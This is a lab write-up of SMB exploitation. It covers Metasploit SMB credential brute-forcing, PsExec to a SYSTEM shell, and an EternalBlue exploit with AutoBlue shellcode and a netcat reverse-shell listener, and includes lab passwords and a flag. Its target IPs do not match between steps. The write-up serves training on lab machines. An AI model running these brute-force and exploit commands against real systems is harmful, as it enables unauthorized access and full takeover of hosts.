# 🔬SMB

## Lab 1 - PsExec

> 🔬 [Windows: SMB Server PSexec](https://attackdefense.com/challengedetailsnoauth?cid=1959)
>
> * Target IP: `10.0.21.78`
> * **SMB** exploitation
> * Dictionaries to use:
>   * `/usr/share/metasploit-framework/data/wordlists/common_users.txt`
>   * `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`

### Enumeration

```bash
nmap -sV -sC 10.0.21.78
```

```bash
Starting Nmap 7.70 ( https://nmap.org ) at 2024-06-30 13:10 IST
Nmap scan report for 10.0.21.78
Host is up (0.0023s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=EC2AMAZ-408S766
| Not valid before: 2024-06-29T07:38:34
|_Not valid after:  2024-12-29T07:38:34
|_ssl-date: 2024-06-30T07:40:33+00:00; -1s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-06-30 13:10:36
|_  start_date: 2024-06-30 13:08:33

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.46 seconds
```

<figure><img src="../../../../../.gitbook/assets/image (130).png" alt=""><figcaption></figcaption></figure>

> Running SMB version 2.02 which means can authenticate with the system via PsExec

### SMB Brute Force

* Perform smb bruteforce using metasploit module `smb_login`

```bash
msf5 > search smb_login

Matching Modules
================

   #  Name                             Disclosure Date  Rank    Check  Description
   -  ----                             ---------------  ----    -----  -----------
   0  auxiliary/scanner/smb/smb_login                   normal  No     SMB Login Check Scanner
```

```bash
msf5 > use auxiliary/scanner/smb/smb_login 
msf5 auxiliary(scanner/smb/smb_login) > set RHOSTS 10.0.21.78
msf5 auxiliary(scanner/smb/smb_login) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf5 auxiliary(scanner/smb/smb_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5 auxiliary(scanner/smb/smb_login) > set VERBOSE false
msf5 auxiliary(scanner/smb/smb_login) > run
```

```bash
[+] 10.0.21.78:445        - 10.0.21.78:445 - Success: '.\sysadmin:samantha'
[+] 10.0.21.78:445        - 10.0.21.78:445 - Success: '.\demo:victoria'
[+] 10.0.21.78:445        - 10.0.21.78:445 - Success: '.\auditor:elizabeth'
[+] 10.0.21.78:445        - 10.0.21.78:445 - Success: '.\administrator:qwertyuiop' Administrator
[*] 10.0.21.78:445        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

<figure><img src="../../../../../.gitbook/assets/image (131).png" alt=""><figcaption></figcaption></figure>

### SMB Exploitation

Use [PsExec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py) script for Linux (from the [impacket-scripts](https://www.kali.org/tools/impacket-scripts/)) to get a command prompt on the target machine, with the Administrator account.

* Using this technique, **no exploit is launched or uploaded on the target system**.
* It is a legitimate authentication with the actual credentials and the use of an official tool (`psexec`).

```bash
 psexec.py Administrator@10.0.21.78 cmd.exe
```

```bash
Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.0.21.78.....
[*] Found writable share admin
[*] Uploading file WlEGirYI.exe
[*] Opening SVCManager on 10.0.21.78.....
[*] Creating service vgLO on 10.0.21.78.....
[*] Starting service vgLO.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system  #the highest privileges
```

{% hint style="info" %}
Target the administrator account because that gives the most access, while other normal user only will give a certain level of access.
{% endhint %}

Alternatively to the Python script, use Metasploit [psexec](https://www.rapid7.com/db/modules/exploit/windows/smb/psexec/) module to get a `meterpreter` session on the target system.

* This technique will **upload and run a (malicious) payload** on the target. Pay attention to the antivirus!

```bash
msf5 auxiliary(scanner/smb/smb_login) > search psexec

Matching Modules
================
10  exploit/windows/smb/psexec                   1999-01-01       manual     No     Microsoft Windows Authenticated User Code Execution
```

```bash
msf5 auxiliary(scanner/smb/smb_login) > use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec) > set RHOSTS 10.0.21.78
msf5 exploit(windows/smb/psexec) > set SMBUser Administrator
msf5 exploit(windows/smb/psexec) > set SMBPass qwertyuiop
msf5 exploit(windows/smb/psexec) > exploit
```

<figure><img src="../../../../../.gitbook/assets/image (132).png" alt=""><figcaption></figcaption></figure>

* Find the flag, running `meterpreter` commands

```bash
shell
cd \
dir
type flag.txt
```

<figure><img src="../../../../../.gitbook/assets/image (133).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Flag: `e0da81a9cd42b261bc9b90d15f780433`
{% endhint %}

***

## Lab 2 - EternalBlue

> 🔬 **Extra Lab**
>
> Setup a vulnerable _Windows 2008 R2 Virtual Machine_ and connected it to the same network of the Kali virtual machine.
>
> * Host system: `Kali Linux`
> * Target system: `Windown Server 2008 R2`&#x20;
> * Target IP: `192.168.42.139`&#x20;
> * Local IP: `192.168.42.132`
> * Exploitation tool: [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)
> * Vulnerability: [CVE-2017-0143 - EternalBlue](https://nvd.nist.gov/vuln/detail/CVE-2017-0143) + [CVE-2017-0144](https://nvd.nist.gov/vuln/detail/CVE-2017-0144)

### Enumeration

```bash
nmap -sV -sC 192.168.42.139 -Pn
```

<figure><img src="../../../../../.gitbook/assets/image (134).png" alt=""><figcaption></figcaption></figure>

```bash
nmap -sV --script smb-vuln-ms17-010 -p445 192.168.42.139 -Pn
```

<figure><img src="../../../../../.gitbook/assets/image (135).png" alt=""><figcaption></figcaption></figure>

### Manual Exploitation

* [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010) will be used for the manual exploitation

<figure><img src="../../../../../.gitbook/assets/image (136).png" alt=""><figcaption></figcaption></figure>

```bash
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
cd AutoBlue-MS17-010
pip install -r requirements.txt
```

<figure><img src="../../../../../.gitbook/assets/image (137).png" alt=""><figcaption></figcaption></figure>

* Generate a shellcode that will be exploited on the target system.

```bash
┌──(k3shi㉿kali)-[~/Downloads/AutoBlue-MS17-010]
└─$ cd shellcode        
                                                                                                                  
┌──(k3shi㉿kali)-[~/Downloads/AutoBlue-MS17-010/shellcode]
└─$ ls
eternalblue_kshellcode_x64.asm  eternalblue_kshellcode_x86.asm  eternalblue_sc_merge.py  shell_prep.sh
                                                                                                                  
┌──(k3shi㉿kali)-[~/Downloads/AutoBlue-MS17-010/shellcode]
└─$ chmod +x shell_prep.sh 

┌──(k3shi㉿kali)-[~/Downloads/AutoBlue-MS17-010/shellcode]
└─$ chmod +x shell_prep.sh 

# LHOST = Local Kali IP address
# LPORT for x64 = Local Port to listen the reverse shell
# LPORT for x84 = Same as x64
```

<figure><img src="../../../../../.gitbook/assets/image (139).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (140).png" alt=""><figcaption></figcaption></figure>

* Set a **`netcat`** listener on the specified port, in another terminal tab

```bash
┌──(k3shi㉿kali)-[~/Downloads/AutoBlue-MS17-010/shellcode]
└─$ nc -nvlp 1234                                               
listening on [any] 1234 ...
```

* In the `AutoBlue` terminal tab, use the `eternalblue_exploit7.py` to exploit the target from the AutoBlue-MS17-010 directory

```bash
cd ..
chmod +x eternalblue_exploit7.py
python eternalblue_exploit7.py 192.168.31.131 shellcode/sc_x64.bin
```

<figure><img src="../../../../../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>

* Check the `netcat` tab for the reverse shell

### Automatic Exploitation

```bash
┌──(k3shi㉿kali)-[~]
└─$ msfconsole

msf6 > search eternalblue
```

<figure><img src="../../../../../.gitbook/assets/image (142).png" alt=""><figcaption><p>List of EternalBlue</p></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

















